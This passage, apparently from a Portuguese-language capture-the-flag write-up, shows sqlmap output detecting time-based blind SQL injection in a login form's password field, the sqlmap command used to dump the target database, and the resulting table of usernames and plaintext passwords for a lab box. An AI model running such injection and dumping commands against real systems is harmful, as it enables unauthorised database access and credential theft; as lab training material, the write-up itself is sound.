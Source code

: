 ```
[17:56:04] [WARNING] provided parameters 'admin, password' are not inside the Cookie                                                                                                                                                                                           
[17:56:04] [INFO] testing connection to the target URL
[17:56:04] [INFO] checking if the target is protected by some kind of WAF/IPS                                                          
[17:56:04] [INFO] testing if the target URL content is stable
[17:56:04] [INFO] target URL content is stable                     
[17:56:04] [WARNING] heuristic (basic) test shows that POST parameter 'password' might not be injectable                               
[17:56:04] [INFO] testing for SQL injection on POST parameter 'password'                                                               
[17:56:04] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'                                                           
[17:56:04] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'          
[17:56:05] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[17:56:05] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[17:56:05] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'                                  
[17:56:05] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'                                                  
[17:56:05] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'                                                       
[17:56:05] [INFO] testing 'Generic inline queries'           
[17:56:05] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'                                                  
[17:56:05] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'                                                      
[17:56:05] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'                                               
[17:56:05] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'                                                         
[17:56:15] [INFO] POST parameter 'password' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
```

Certo, o parâmetro `password` é injetável, então vamos lá, executo primeiro um --dbs e tenho algumas tabelas como retorno, busco a que a aplicação deve estar usando:
```
root@parrot:/tmp/lord# sqlmap -r post_exploit --batch -p password -D Webapp --tables --dump
```

Um bom tempo passado (já que se trata de uma injeção baseada em tempo https://www.sqlinjection.net/time-based/) tenho:

```
Database: Webapp
Table: Users
[5 entries]
+------+----------+------------------+
| id   | username | password         |
+------+----------+------------------+
| 1    | frodo    | iwilltakethering |
| 2    | smeagol  | MyPreciousR00t   |
| 3    | aragorn  | AndMySword       |
| 4    | legolas  | AndMyBow         |
| 5    | gimli    | AndMyAxe         |
+------+----------+------------------+
```
